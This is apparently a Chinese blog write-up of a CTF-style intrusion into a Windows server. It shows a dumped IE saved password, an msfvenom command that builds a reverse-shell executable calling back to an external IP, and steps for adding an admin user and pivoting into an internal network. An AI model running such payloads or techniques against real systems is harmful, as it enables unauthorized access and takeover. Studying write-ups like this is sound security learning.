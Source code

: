 这里看了lemon师傅的wp，感觉66666，这里是因为提示跳步了，看lemon找ie的密码好6....

开始瞎翻，提示说桌面有东西，翻到桌面，有个东西看上去有用
```
ie-password.txt

==================================================
Entry Name        : https://www.baidu.com/
Type              : AutoComplete
Stored In         : Registry
User Name         : iamroot
Password          : abc@elk
Password Strength : Medium
==================================================


```

开始找东西

找到安装了xshell，有个内网地址，鬼知道是个啥

.......中间省略翻了一夜的文件...

实话说，没有目标的找东西好蛋疼...

## windows服务器入侵 ##

根据找到的一部分感觉有关系的文件搜索发现，妈卖批，webshell不够用，所以紧急学了一波msf

```
msfvenom -p windows/shell_reverse_tcp LHOST=115.28.78.16  LPORT=32452 -f exe -o /tmp/ddog2.exe
```

上传运行，然后监听

![image_1b6l5grlb13m1n5s1tf9804m1t13.png-6.1kB][3]

ipconfig

![image_1b6l64uhs1pu61fk35odp3h1uvh1g.png-34.4kB][4]

Net Localgroup

![image_1b6l7encusqp42g1mh2bltgmh1t.png-37.8kB][5]

加用户到admin权限组

![image_1b6l7j4l81eved3u1q5mbppq052a.png-39.5kB][6]

我记得上面提到过xshell里找到一个ip是172.31.5.95

用从别人那里抢来的大马扫端口，发现22是开着的，但是有了新的问题，在没有图形界面的情况下，怎么链接呢

目测内网渗透，要端口转发一波
主要是这篇文章
[http://www.vuln.cn/2791](http://www.vuln.cn/2791)


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/pf1t32io7xaoujii6f9rrrcq/image_1b6eu5f6bk4o3l9jsl1g991tsp9.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/zwrf4r3h19lpbvxfy9gqqb17/image_1b6eu5u3ifqo1ajt77k1fdci4rm.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/pccg6rlisy1ghel0n4s4ijig/image_1b6l5grlb13m1n5s1tf9804m1t13.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/wk776ofeeq3lj0ws0zsxsi0r/image_1b6l64uhs1pu61fk35odp3h1uvh1g.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/jyn5s78owlpauf91e9ebusza/image_1b6l7encusqp42g1mh2bltgmh1t.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/oii146dyawdch04zh6tlocc8/image_1b6l7j4l81eved3u1q5mbppq052a.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/dsayrn7zx9whlhacoe8ngirr/image_1b6lfnmphdos1buvbvg447ro32n.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/venhfwmygje88z05ve8org85/image_1b6lfon6c196us04k2r1i2g1v0l34.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/vkafi9ufrmgjbywat28vnyxb/image_1b6lgdu5fmarovecb41van1a0g3h.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/mrstoosa1un6h4e12nw2umz8/image_1b6lr2rq41f1f9l7140f13bd82h3u.png